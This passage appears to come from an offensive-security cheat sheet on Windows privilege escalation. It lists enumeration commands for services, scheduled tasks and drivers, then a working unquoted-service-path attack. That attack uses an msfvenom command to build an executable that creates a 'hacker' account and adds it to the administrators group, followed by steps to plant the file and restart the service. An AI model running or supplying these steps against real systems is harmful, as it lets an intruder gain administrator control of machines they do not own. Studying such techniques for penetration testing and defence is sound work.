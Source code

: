 ```cmd
# PowerShell alternative
Get-WmiObject win32_service | Select-Object Name, DisplayName, State, PathName
```

### Scheduled Tasks
```cmd
# List scheduled tasks
schtasks /query /fo LIST /v
schtasks /query /fo csv /v > tasks.csv

# PowerShell alternative
Get-ScheduledTask | Where-Object {$_.State -eq "Ready"} | Select-Object TaskName,TaskPath,State

# Check task permissions
icacls C:\Windows\System32\Tasks\<task-name>
```

### Driver Enumeration
```cmd
# List loaded drivers
driverquery /v

# PowerShell alternative  
Get-WmiObject Win32_PnPEntity | Select-Object Name, Manufacturer, Service

# Check for vulnerable drivers
driverquery | findstr /i "kernel"
```

## Privilege Escalation Techniques

### 1. Service Exploits

#### Unquoted Service Paths
```cmd
# Find services with unquoted paths containing spaces
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """

# Check if you can write to the path
icacls "C:\Program Files\Vulnerable Service"

# Create malicious executable
msfvenom -p windows/exec CMD="net user hacker Password123! /add && net localgroup administrators hacker /add" -f exe -o "Program.exe"

# Place the file and restart service
copy Program.exe "C:\Program Files\Program.exe"
sc stop <service-name>
sc start <service-name>
```
